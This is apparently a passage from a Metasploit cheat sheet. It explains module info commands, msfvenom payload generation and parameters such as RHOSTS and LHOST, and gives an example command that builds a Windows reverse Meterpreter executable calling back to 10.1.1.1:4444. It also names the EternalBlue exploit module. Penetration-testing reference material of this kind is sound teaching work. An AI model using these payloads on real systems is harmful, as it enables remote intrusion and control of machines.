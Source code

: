 information on any module :

```
msf > info exploit/windows/smb/ms17_010_eternalblue
msf exploit(windows/smb/ms17_010_eternalblue) > info
```

<br>

msfvenom :

The msfvenom tool can be used to generate Metasploit payloads (such as Meterpreter) as standalone files and optionally encode 
them. This tool replaces the former msfpayload and msfencode tools. Run with ‘'-l payloads’ to get a list of payloads.

```
$ msfvenom –p [PayloadPath] –f [FormatType] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort]
```
<br>

> [!NOTE]
> 
>   Parameters you will often use are:
> 
> - <h4>RHOSTS</h4> “Remote host”, the IP address of the target system. A single IP address or a network range can be set. This will support the CIDR (Classless Inter-Domain Routing) notation (/24, /16, etc.) or a network range (10.10.10.x – 10.10.10.y). You can also use a file where targets are listed, one target per line using file:/path/of/the/target_file.txt, as you can see below.
>    <p align="center"><img src="https://github.com/4bo4yman/Metasploit_CheatSheet/assets/156849852/560c8649-16c5-40e2-911f-56070d30ad3e" height="300px" width="800px"></p>
>  - <h4>RPORT</h4> “Remote port”, the port on the target system the vulnerable application is running on.
>  - <h4>PAYLOAD</h4> The payload you will use with the exploit.
>  - <h4>LHOST</h4> “Localhost”, the attacking machine (your AttackBox or Kali Linux) IP address.
>  - <h4>LPORT</h4> “Local port”, the port you will use for the reverse shell to connect back to. This is a port on your attacking machine, and you can set it to any port not used by any other application.
>  - <h4>SESSION</h4> Each connection established to the target system using Metasploit will have a session ID. You will use this with post-exploitation modules that will connect to the target system using an existing connection.


<br>
Example :

Reverse Meterpreter payload as an executable and redirected into a file:

```
$ msfvenom -p windows/meterpreter/ reverse_tcp -f exe LHOST=10.1.1.1 LPORT=4444 > met.exe
```
<br>

Format Options (specified with –f) --help-formats – List available output formats

> exe – Executable
> pl – Perl
> rb – Ruby
> raw – Raw shellcode
> c – C code
